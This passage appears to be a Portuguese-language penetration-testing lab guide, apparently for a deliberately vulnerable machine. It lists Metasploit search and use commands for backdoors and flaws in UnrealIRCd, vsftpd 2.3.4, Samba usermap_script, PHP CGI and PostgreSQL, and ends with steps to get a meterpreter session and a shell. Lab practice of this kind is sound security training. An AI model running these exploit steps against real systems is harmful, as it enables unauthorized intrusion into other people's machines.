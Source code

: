 ```shell
use exploit/unix/irc/unreal_ircd_3281_backdoor
```
Serviço VSFtpd vulnerável (porta 21)

Procure por vsftpd_234

```shell
search vsftpd_234
```
Use a exploração

```shell
use exploit/unix/ftp/vsftpd_234_backdoor
```

Serviço Samba vulnerável (porta 139)

Procure por samba usermap_script

```shell
search usermap_script
```
Use a exploração

```shell
use exploit/multi/samba/usermap_script
```

Serviço HTTP (php) vulnerável (porta 80)

Procure por php_cgi

```shell
 search php_cgi
```
Use a exploração

```shell
use exploit/multi/http/php_cgi_arg_injection
```
No prompt do meterpreter, vá para um shell

```shell
shell
```
Serviço Postgres vulnerável (porta 5432)

Procure por postgres_payload

```shell
search postgres_payload
```

Use a exploração

```shell
use exploit/linux/postgres/postgres_payload
```

Visualize e defina opções conforme necessário (opção RHOST)
Execute a exploração.
  Nota: quando a exploração é bem-sucedida, um prompt 'meterpreter' é mostrado
